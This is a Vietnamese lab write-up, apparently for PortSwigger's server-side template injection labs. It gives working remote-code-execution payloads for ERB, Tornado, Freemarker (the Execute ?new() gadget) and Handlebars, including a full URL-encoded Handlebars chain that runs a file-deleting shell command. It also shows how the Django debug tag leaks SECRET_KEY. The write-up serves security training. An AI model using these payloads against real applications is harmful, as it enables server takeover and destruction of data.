

# SST Injection

Server-side template injection (SSTI) là dạng lỗ hổng cho phép kẻ tấn công inject các payload (tạo bởi chính ngôn ngữ template đó) vào các template, và chúng được thực thi tại phía server.

## Decription and Impact

Lỗ hổng xuất hiện khi ứng dụng nhúng trực tiếp dữ liệu từ user vào template mà không kiểm soát. Nếu bị khai thác, hacker có thể:

- **Thực thi mã từ xa (RCE)**
- **Đọc dữ liệu nhạy cảm (file hệ thống, database)**
- **Leo thang đặc quyền, kiểm soát server**
- **Phá hoại hoặc mã hóa dữ liệu để tống tiền**

## Root Cause

- Ứng dụng không lọc đầu vào trước khi đưa vào template.
- Template engine hỗ trợ thực thi mã.
- Lập trình viên sử dụng chức năng render không an toàn.

## SSTI-01: **Basic server-side template injection**

[lab-server-side-template-injection-basic](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

Khi nhấp vào "View details" của sản phẩm đầu tiên trên trang chủ, ứng dụng gửi yêu cầu GET:

`GET /?message=Unfortunately this product is out of stock`

Tham số `message` chứa chuỗi "Unfortunately this product is out of stock", và chuỗi này được hiển thị trực tiếp trên giao diện trang chủ.



Tham số `message` có khả năng được đưa vào template mà không qua kiểm tra đầu vào


Tạo payload thử nghiệm với phép toán đơn giản: `<%= 7*7 %>`  


Ứng dụng thực thi biểu thức 7*7 và hiển thị kết quả, xác nhận tồn tại lỗ hổng SSTI với template engine ERB.

Nhiệm vụ là xóa file morale.txt từ thư mục home của Carlos. 

Xác định đường dẫn


Payload:  `<%= Dir.entries("/home") %>`


Payload: `<%= Dir.entries("/home/carlos") %>`


có được path, xóa file morale.txt theo yêu cầu
`<%= system("rm /home/carlos/morale.txt") %>`

## SSTI-02: **Basic server-side template injection (code context)**

[lab-server-side-template-injection-basic-code-context](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

Đăng nhập vào tài khoản
Truy cập một bài blog bất kỳ và đăng bình luận


Bình luận hiển thị trên blog cùng với tên người dùng và thời gian. Hai yếu tố có thể tác động: nội dung bình luận và tên người dùng.

Thử các payload như {{7*7}} vào nội dung bình luận, nhưng kết quả hiển thị không thay đổi
⇒ Nội dung bình luận không được xử lý như template.

Thử thay đổi tên người dùng từ endpoint `/my-account/change-blog-post-author-display`

qua tham số `blog-post-author-display`

Đổi 1 tên ngẫu nhiên (’aaa’)


Lỗi xảy ra trong quá trình thực thi template, tiết lộ template engine là **Tornado** (Python).

Thử payload `{{7*7}}`


Trang hiển thị "49", chứng minh biểu thức được thực thi ⇒ SSTI

Xóa morale.txt với payload `{{os.system('rm /home/carlos/morale.txt')}}`

## SSTI-03: **Server-side template injection using documentation**

[lab-server-side-template-injection-using-documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

Đăng nhập vào tài khoản, truy cập 1 sản phẩm ngẫu nhiên, chỉnh sửa template mô tả sản phẩm


Quan sát cú pháp trong template: ${…..} được dùng để hiển thị kết quả. Đây là dấu hiệu của một template engine, nhưng chưa rõ là loại nào.

Thử truyền một biểu thức không hợp lệ vào template, quan sát lỗi trả về ⇒ Freemarker


Ở Freemarker, có 1 built-in là `new()` cho phép tạo đối tượng của bất kỳ lớp Java nào triển khai TemplateModel. (TemplateModel là một giao diện trong Freemarker mà các lớp Java phải triển khai để tương tác với template)

[https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_new](https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_new)


Có 1 câu hỏi trong FAQ ở docs của Freemarker, nội dung câu hỏi là *"Can I allow users to upload templates and what are the security implications?”*

[https://freemarker.apache.org/docs/app_faq.html](https://freemarker.apache.org/docs/app_faq.html)


Nếu không cấu hình sandbox hoặc giới hạn lớp, `new()` có thể tạo các đối tượng như Execute ( đối tượng Java nguy hiểm)


`freemarker.template.utility.Execute` là một trong lớp triển khai TemplateModel cho phép chạy lệnh shell tùy ý

[https://freemarker.apache.org/docs/api/freemarker/template/utility/Execute.html](https://freemarker.apache.org/docs/api/freemarker/template/utility/Execute.html)

Sử dụng new() để tạo đối tượng của freemarker.template.utility.Execute. Sau đó gán instance này vào một biến  bằng <#assign>

`<#assign payload = "freemarker.template.utility.Execute"?new()>`

Sau đó thực thi lệnh shell `${payload("id")}`


`${payload("rm /home/carlos/morale.txt")}` xóa tệp để hoàn thành lab.

## SSTI-04: **Server-side template injection in an unknown language with a documented exploit**

[lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)


Thử các payload để detect template engine

Khi dùng `{{7*7}}` thì server trả về lỗi


Không hiểu gì hết ⇒ ChatGPT :)))


Handlebars không hiểu cú pháp `{{7*7}}` vì nó không hỗ trợ tính toán trực tiếp trong template.

```jsx
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

URLencoded:
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

Tìm được 1 đoạn mã exploit Handlebars trên Hacktricks

Dán payload vào ⇒ Thành công :))))

Nôm na thì đoạn mã khai thác SSTI trong Handlebars để chạy lệnh `rm /home/carlos/morale.txt`

## SSTI-05: **Server-side template injection with information disclosure via user-supplied objects**

[lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)

Đăng nhập vào tài khoản, truy cập 1 sản phẩm ngẫu nhiên, chỉnh sửa template mô tả sản phẩm

Nhập đại 1 payload nào đó vào để lấy lỗi


Xác định được template engine là `django`


Phát hiện rằng template tag tích hợp debug có thể được sử dụng để hiển thị thông tin debug.


Đầu ra hiển thị danh sách các đối tượng và thuộc tính có thể truy cập từ template, bao gồm cả `settings`


[https://docs.djangoproject.com/en/5.1/ref/settings/#secret-key](https://docs.djangoproject.com/en/5.1/ref/settings/#secret-key)

Xác định rằng `settings` chứa thuộc tính **SECRET_KEY**, một giá trị nhạy cảm có thể gây ra hậu quả nghiêm trọng nếu bị lộ.

